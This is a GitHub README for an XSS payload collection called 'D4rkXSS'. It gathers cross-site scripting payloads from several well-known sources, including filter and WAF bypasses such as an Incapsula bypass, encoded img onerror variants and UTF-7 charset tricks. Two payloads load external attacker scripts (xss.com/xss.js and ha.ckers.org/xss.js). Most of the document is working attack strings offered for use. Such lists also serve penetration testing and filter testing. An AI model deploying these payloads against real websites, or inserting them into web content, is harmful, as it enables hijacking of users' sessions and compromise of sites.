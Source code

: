 # D4rkXSS
<br/>
<p align="center">
	<img src="https://github.com/R0X4R/D4rkXSS/blob/master/imdge.png"><br/>
All in one place for XSS.<br/> <a href="https://eshansingh.in/">R0X4R</a></p>

# Contribution
This is an open source repo. Anyone can contribute. :beers: <br/>
	[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/R0X4R)

## Bypass WAF
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/noscript.txt">NO SCRIPT</a><br/>
<li>For Example:</li>

```js
<acronym><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<bgsound><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
<xmp><p title="</#{endtag}><svg/onload=alert(#{starttag})>">
incapsula bypass: <iframe/onload="var b ='document.domain)'; var a = 'JaV' + 'ascRipt:al' + 'ert(' + b;this['src']=a">
```

<a href="https://github.com/R0X4R/D4rkXSS/blob/master/brutelogic.txt">Brutelogic</a><br/>
<li>For Example:</li>

```
\'-alert(1)//
</script><svg onload=alert(1)>
<x contenteditable onblur=alert(1)>lose focus!
```
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/fuzz.txt">Fuzz3r</a><br/>
<li>For Example:</li>

```
#getURL,javascript:alert(1)",
#goto,javascript:alert(1)",	
?javascript:alert(1)",

```
## IMG Error
<li>Encoding</li>

```
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\x2561lert(1)'" src="x">
<img onerror="location='javascript:\x255Cu0061lert(1)'" src="x" >
```


## Jhaddix
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/jhaddix.txt">Jhaddix</a><br/>
<li>For Example:</li>

```
'%22--%3E%3C/style%3E%3C/script%3E%3Cscript%3Eshadowlabs(0x000045)%3C/script%3E
<<scr\0ipt/src=http://xss.com/xss.js></script
%27%22--%3E%3C%2Fstyle%3E%3C%2Fscript%3E%3Cscript%3ERWAR%280x00010E%29%3C%2Fscript%3E
' onmouseover=alert(/Black.Spook/)

```

## RSnake
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/rsnake.txt">RSnake</a><br/>
<li>For Example:</li>

```
<SCRIPT>alert('XSS');</SCRIPT>
'';!--"<XSS>=&{()}
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

```

## MarioXSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/mario.txt">Mario</a><br/>
<li>For Example:</li>

```
<div id="1"><form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>//["'`-->]]>]</div><div id="2"><meta charset="x-imap4-modified-utf7">&ADz&AGn&AG0&AEf&ACA&AHM&AHI&AGO&AD0&AGn&ACA&AG8Abg&AGUAcgByAG8AcgA9AGEAbABlAHIAdAAoADEAKQ&ACAAPABi//["'`-->]]>]</div><div id="3"><meta charset="x-imap4-modified-utf7">&<script&S1&TS&1>alert&A7&(1)&R&UA;&&<&A9&11/script&X&>//["'`-->]]>]</div><div id="4">0?<script>
```
## Search Engine XSS
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/seXSS.md">seXSS</a><br/>

## Misc Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/Misc.md">Misc</a><br/>

## Basic Payloads
<a href="https://github.com/R0X4R/D4rkXSS/blob/master/basicxss.txt">Basic</a><br/>
<li>For Example:</li>

```
<script>alert('1')</script>
"><script>alert('1')</script>
<svg/onload=alert('1');
```
